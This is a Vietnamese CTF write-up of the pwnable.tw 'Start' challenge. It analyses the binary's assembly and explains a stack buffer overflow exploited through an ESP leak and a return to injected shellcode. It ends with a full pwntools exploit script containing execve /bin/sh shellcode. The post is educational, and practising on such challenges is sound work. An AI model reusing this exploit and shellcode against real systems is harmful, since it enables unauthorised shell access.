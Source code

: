 ```yaml
---
layout: post
title:  Pwnable.tw
comments: true
---
```


## 0x00 Giới thiệu
Khoảng một tháng trở lại đây, tôi chuyên tâm hơn vào việc chơi pwn. Một phần là vì mảng pwn khó, phần còn lại là tôi nghĩ nó có thể giúp tôi kiếm được tiền :)) Vì là một người mới, những kiến thức mà tôi viết ở đây có thể chưa chính xác hoàn toàn. Rất mong các bạn đọc góp ý để tôi phát triển hơn nữa. 

[Pwnable.tw](https://pwnable.tw/) là một trang luyện tập mảng pwn khá nổi tiếng của Đài Loan. Theo tôi cảm nhận, thử thách ở đây khá khó cho người mới. Nếu các bạn không làm được thì cũng đừng lấy gì làm lạ. Tôi đã mất khoảng hơn 1 tuần để nghiền ngẫm challenge đầu tiên. 

## 0x01 Start

### I. Tổng quan ##
![](/images/Pwnable.tw/0x01%20Start/start.png)

Đề bài cho chúng ta duy nhất một file là `start`. Việc đầu tiên tôi thường làm sẽ là kiểm tra xem file là 32 hay 64 bits. Để kiểm tra, tôi thường dùng `file`.
```shell
$ file start
start: ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), statically linked, not stripped
```
 Thông tin cho chúng ta biết được đây là một file 32 bits. Load chương trình vào IDAPRO x32, quan sát các hàm ở mục `Functions`, nhận thấy rằng chương trình chỉ xoay quanh hàm `_start`.  

### II. Phân tích 

```
push    esp
push    offset _exit
xor     eax, eax
xor     ebx, ebx
xor     ecx, ecx
xor     edx, edx
push    3A465443h
push    20656874h
push    20747261h
push    74732073h
push    2774654Ch
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
add     esp, 14h
retn
```

Mã assembly của hàm `_start` rất dễ đọc, chúng ta sẽ đi phân tích nội dung từng đoạn code. 

Việc đầu tiên là đẩy thanh ghi `ESP` và offset của hàm `_exit` vào trong stack. Sau đó, gán giá trị của 4 thanh ghi `EAX, EBX, ECX, EDX = 0`. Tiếp theo là đẩy các giá trị `3A465443h, 20656874h, 20747261h, 74732073h, 2774654Ch` vào trong stack. 

Câu hỏi đặt ra ở đây là 5 con số trên là gì vậy? Rất đơn giản, nó chính là: 
- 3A465443h = ":FTC" 
- 20656874h = " eht"
- 20747261h = " tra"
- 74732073h = "ts s"
- 2774654Ch = "'teL"

Chúng đại diện cho chuỗi "**Let's start the CTF:**"

Đoạn mã tiếp theo, chương trình gọi ra 2 system call là sys_write và sys_read

```
mov     ecx, esp        ; addr
mov     dl, 14h         ; len
mov     bl, 1           ; fd
mov     al, 4
int     80h             ; LINUX - sys_write
```

Thông tin system call 
- Đọc chuỗi từ địa chỉ ESP hiện tại 
- Độ dài: 0x14 bytes
- File descriptor: stdout

```
xor     ebx, ebx
mov     dl, 3Ch ; '<'
mov     al, 3
int     80h             ; LINUX -
```

Thông tin system call 
- Đọc số byte: 0x3C 

Đoạn mã cuối cùng tăng giá trị thanh `ESP` lên 0x14 đơn vị. `retn` gọi địa chỉ thanh ghi `ESP` đang giữ rồi cộng `ESP` lên 4 đơn vị.  

```
add     esp, 14h
retn
```

### III. Lỗ hổng

Chúng ta cùng nhìn qua cấu trúc của stack trước khi gọi 2 system call. 

![Alt text](/images/Pwnable.tw/0x01%20Start/image.png)

Giá trị của thanh ghi `ESP` ở: 
- Hiện tại:  `0xFFFFD124`
- Ban đầu:  `0xFFFFD140`

Chú ý rằng, thường các challenge sẽ bật **Address Space Layout Randomization** nên giá trị thanh ghi `ESP` ban đầu luôn có giá trị ngẫu nhiên. (Đây là lý do vì sao mình không lấy `ESP = 0xFFFFD140` để khai thác lỗ hổng)

Như ta đã phân tích ở trên, `sys_read` cho phép đọc 60 bytes vào stack. Nếu chúng đã nhập vào 20 bytes, thì từ địa chỉ `0xFFFFD124` đến `0xFFFFD134` sẽ được fill đủ. Giả sử chúng ta tiếp tục nhập vào, các giá trị tại các địa chỉ trên nó sẽ bị thay đổi. 

### IV. Hướng tấn công 

Công việc chúng ta cần thực hiện: 
1. Lấy được địa chỉ thanh ghi `ESP` ban đầu. 
2. Từ việc có được giá trị thanh ghi `ESP` ban đầu, chúng ta sẽ đưa địa chỉ trả về của hàm là địa chỉ của shellcode. 

### Công việc 1
![Alt text](/images/Pwnable.tw/0x01%20Start/image-1.png)

Để lấy giá trị của thanh ghi `ESP` ban đầu rất đơn giản. Chúng ta nhập đủ 20 bytes để lấp đầy địa chỉ từ `0xFFFFD124` đến `0xFFFFD134`, tiếp tục ghi thêm 4 bytes `0x08048087` để chương trình có thể gọi system call read và write lần thứ 2. 

Bây giờ, giá trị của thanh ghi `ESP` sẽ là: `0xFFFFD124 + 0x14 + 0x4 = 0xFFFFD13C`. Chú ý, đây cũng là nơi chứa giá trị thanh ghi `ESP` ban đầu. 

Lợi dụng việc gọi `sys_write` lần thứ 2. Chỉ cần in ra 4 bytes đầu tiên, chúng ta sẽ lấy được địa chỉ `ESP` ban đầu.  

```python
payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
```

### Công việc 2

Sau khi đã có địa chỉ `ESP` ban đầu. Việc của chúng ta là phải tính toán xem phải input bao nhiêu ký tự để chương trình có thể thực thi được shellcode. 

Gọi địa chỉ `ESP` ban đầu là `ESP = X`, giá trị hiện tại `ESP = X - 4`

![Alt text](/images/Pwnable.tw/0x01%20Start/image-2.png)

Sau khi `sys_read` được gọi, `ESP + 0x14`, nghĩa là `ESP` đứng ở `X + 16`. Ở `X + 16`, chúng ta chỉ cần gán cho nó giá trị là `X + 20`, nơi shellcode được viết. Hàm trả về sẽ là địa chỉ shellcode được bắt đầu. 

```python
payload2 = b'x' * 0x14 + p32(leaked_esp + 0x14) + shellcode
```

### V. Mã khai thác 
```python
from pwn import *

r = remote("chall.pwnable.tw", 10000)

shellcode = b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80" 

payload1 = b'x' * 0x14 + p32(0x08048087)
r.sendafter(b':', payload1) 
esp_leaked = u32(r.recv()[:4])
payload2 = b'x' * 0x14 + p32(esp_leaked + 0x14) + shellcode
r.send(payload2)

r.interactive()
```

### VI. Tham khảo
1. [Pwnable.tw - Start @y198](https://hackmd.io/@y198/ry6GrF3gi)
2. [Pwnable.tw - Start @c01dkit](https://blog.csdn.net/weixin_43483799/article/details/113844032)